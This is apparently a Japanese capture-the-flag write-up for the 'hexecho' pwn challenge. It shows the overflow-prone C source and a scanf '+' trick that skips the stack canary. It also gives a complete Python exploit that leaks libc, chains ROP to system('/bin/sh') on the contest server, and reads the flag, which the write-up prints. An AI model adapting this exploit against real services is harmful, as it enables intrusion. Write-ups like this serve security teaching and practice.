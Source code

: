 # hexecho:Easy:179pts
Stack canary makes me feel more secure.  

[hexecho.tar.gz](hexecho.tar.gz)  

`nc 34.170.146.252 51786`  

# Solution
ソースと接続先が渡される。  
```bash
$ nc 34.170.146.252 51786
Size: 3
Data (hex): aabbcc
Received: aa bb cc
```
`Size`と`Data (hex)`を受け取り、受け取った値を`Received`としてHexで返している。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUF_SIZE 0x100

int get_size() {
  int size = 0;
  scanf("%d%*c", &size);
  return size;
}

void get_hex(char *buf, unsigned size) {
  for (unsigned i = 0; i < size; i++)
    scanf("%02hhx", buf + i);
}

void hexecho() {
  int size;
  char buf[BUF_SIZE];

  // Input size
  printf("Size: ");
  size = get_size();

  // Input data
  printf("Data (hex): ");
  get_hex(buf, size);

  // Show data
  printf("Received: ");
  for (int i = 0; i < size; i++)
    printf("%02hhx ", (unsigned char)buf[i]);
  putchar('\n');
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  hexecho();
  return 0;
}
```
`Size`の制限が無いため、BOFし放題である。  
セキュリティ機構をチェックする。  
```bash
$ checksec --file=./hexecho
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   43 Symbols      N/A     0               0               ./hexecho
```
canaryがあるためリークを考えるが、読み取れそうな場所はない。  
ここで`scanf`に`+`を渡した際に、その個所のバッファには何も書き込まれず元の値が保持されるという挙動を思い出す。  
これでcanaryをスキップし、それ以降のリターンアドレスのみ書き換えてROPしてやればよさそうだ。  
さらに、`Size`を使い果たすより前にHexでない文字で入力を終了すると、それ以降のバッファが流れ出ることもわかる。  
```bash
$ ./hexecho
Size: 20
Data (hex): aabbccs
Received: aa bb cc 00 00 00 00 00 0c 00 00 00 00 00 00 00 40 00 00 00
```
これでスタック上にあるlibcのアドレスもリークできそうだ。  
うまくオフセットを調整し、`main`にもう一度飛ばすことで`__libc_start_main+128`からリークしたアドレスでROPする(アライメントに注意)。  
以下のexploit.pyで行う。  
```python
from ptrlib import *

elf = ELF("./hexecho")

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc.so.6")

# sock = Process("./hexecho")
sock = Socket("nc 34.170.146.252 51786")
# sock.debug = True


def hexecho(n):
    hexstr = hex(n)[2:].zfill(16)
    return "".join([hexstr[i : i + 2] for i in range(0, len(hexstr), 2)][::-1]).encode()


payload = b"A" * 0x210
payload += b"+" * 0x9
payload += b"B" * 0xF
payload += hexecho(next(elf.gadget("ret;")))
payload += hexecho(elf.symbol("main"))
payload += b"s"
sock.sendlineafter("Size: ", 0x1000)
sock.sendlineafter("Data (hex): ", payload)

leak = int("".join((sock.recvline()[0x562:0x573]).decode().split()[::-1]), 16)
logger.info("__libc_start_main+128 = " + hex(leak))
libc.base = leak - libc.symbol("__libc_start_main") - 0x80

payload = b"A" * 0x210
payload += b"+" * 0x9
payload += b"B" * 0xF
payload += hexecho(next(libc.gadget("pop rdi; ret;")))
payload += hexecho(next(libc.search("/bin/sh")))
payload += hexecho(next(libc.gadget("ret;")))
payload += hexecho(libc.symbol("system"))
payload += b"s"
sock.sendlineafter("Size: ", 0x1000)
sock.sendlineafter("Data (hex): ", payload)
sock.recvline()

sock.sh()
```
実行する。  
```bash
$ python exploit.py
[+] __init__: Successfully connected to 34.170.146.252:51786
[+] <module>: __libc_start_main+128 = 0x7f5d61c3ce40
[+] base: New base address: 0x7f5d61c13000
[ptrlib]$ ls
run
[ptrlib]$ ls /
app
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[ptrlib]$ cat /flag.txt
Alpaca{4Lw4y5_cH3cK_1f_a_fuNc71on_f4iL3d}
```
flagが得られた。  

## Alpaca{4Lw4y5_cH3cK_1f_a_fuNc71on_f4iL3d}